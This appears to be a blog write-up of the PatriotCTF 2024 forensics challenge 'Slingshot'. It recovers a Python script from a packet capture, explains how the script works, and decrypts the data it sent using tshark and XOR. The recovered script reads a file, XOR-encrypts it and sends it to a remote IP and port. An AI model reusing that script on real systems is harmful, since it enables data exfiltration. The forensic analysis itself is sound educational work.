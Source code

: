 ```yaml
---
title: 'PATRIOT CTF 2024'
date: 2024-09-22
permalink: /posts/2024/09/patriotctf/
tags:
  - web
  - osint
  - misc
  - forensic
---
```


Introduction
=====
<div style="text-align: center; size: 50px">
  <img src="/images/patriotctf2024/pctf-cert.png" alt="PATRIOTCTF2024" />
</div>
<br>
PatriotCTF is a beginner-friendly capture-the-flag competition hosted by GMU's cybersecurity club, MasonCC. All are welcome to participate, including students and security professionals. Challenges will range from beginner to expert, so there should be something for everyone. This is a jeopardy-style CTF, meaning there will be various challenges from the different categories described below. 


# Forensic
* **Slingshot**
> <span style="color:pink">Author: AJ Hoepfner (greatvaluerice)</span>

    Description:
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/description.png" alt="Challenge" />
    </div>
    <br>
    
    The challenge gives us a `.pcapng` file. Let's analyze it! The first, I check *Protocol Hierarchy Statistics*. 
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/hierarchy.png" alt="hierarchy" />
    </div>
    <br>

    It showed 100% of the packet is TCP, so I filtered HTTP first.
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/http-fil.png" alt="" />
    </div>
    <br>
    
    Then, i export this `.pyc` file and uncompiled it. I got the `.py` with content:
    ```
    import sys
    import socket
    import time
    import math
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    file = sys.argv[1]
    ip = sys.argv[2]
    port = 22993
    with open(file, 'rb') as r:
        data_bytes = r.read()
    current_time = time.time()
    current_time = math.floor(current_time)
    key_bytes = str(current_time).encode('utf-8')
    init_key_len = len(key_bytes)
    data_bytes_len = len(data_bytes)
    temp1 = data_bytes_len // init_key_len
    temp2 = data_bytes_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))
    s.connect((ip, port))
    s.send(encrypt_bytes)
    ```
    The code opens the secret file in binary read mode `('rb')` and reads its contents into a byte string `data_bytes`.

    The current time is obtained using time.time() and converted to an integer using math.floor(). This integer is then converted to a byte string `key_bytes` using the encode() method with the 'utf-8' encoding.
    
    The code calculates the length of the key `init_key_len` and the length of the data `data_bytes_len`. It then calculates the number of times the key needs to be repeated to match the length of the data `temp1` and the remaining bytes `temp2`.

    The key is repeated `temp1` times and then padded with the first `temp2` bytes of the key to match the length of the data. 
    
    Then the code uses a generator expression to perform a byte-wise XOR operation between the key and the data, resulting in an encrypted byte string `encrypt_bytes`. Finally send it to some ip with port `22993`.
    
    Continuously, i filtered the packet with port `22993` and have `data`
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/filter.png" alt="" />
    </div>
    <br>
    
    Nice, i found 3 packets was send. So let's extract all of them by using this command:
    > tshark -r Slingshot.pcapng -Y 'tcp.port ==22993 and data and data.len!=1' -T fields -e data > data.enc
    
    Next step is find timestamp or key. It is the epoch time when the first packet send.
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/time.png" alt="" />
    </div>
    <br>
    
    Nice, i got all things to decrypt the flag. Here is my code:
    ```
    from datetime import datetime
    import math
    
    with open("data.enc") as f:
        total_hex = "".join([line.strip() for line in f.readlines()])
    encrypted_bytes = bytes.fromhex(total_hex)
    
    current_time = 1726595769.063377000
    current_time = math.floor(current_time)
    
    key_bytes = str(current_time).encode('utf-8')
    init_key_len = len(key_bytes)
    data_bytes_len = len(encrypted_bytes)
    temp1 = data_bytes_len // init_key_len
    temp2 = data_bytes_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    
    decrypted_bytes = bytes(a ^ b for a, b in zip(key_bytes, encrypted_bytes))
    image_filename = 'decrypted_image.jpg'
    
    with open(image_filename, 'wb') as f:
        f.write(decrypted_bytes)
    
    print("Done")
    ```
    
    
    Flag:
    <div style="text-align: center;">
        <img src="/images/patriotctf2024/for/Slingshot/decrypted_image.jpg" alt="" />
    </div>
    <br>
    
    ### Conslusion:
    + Export the encrypt code
    + Filter to extract data and timestamp
    + Decrypt flag

    # Updating...
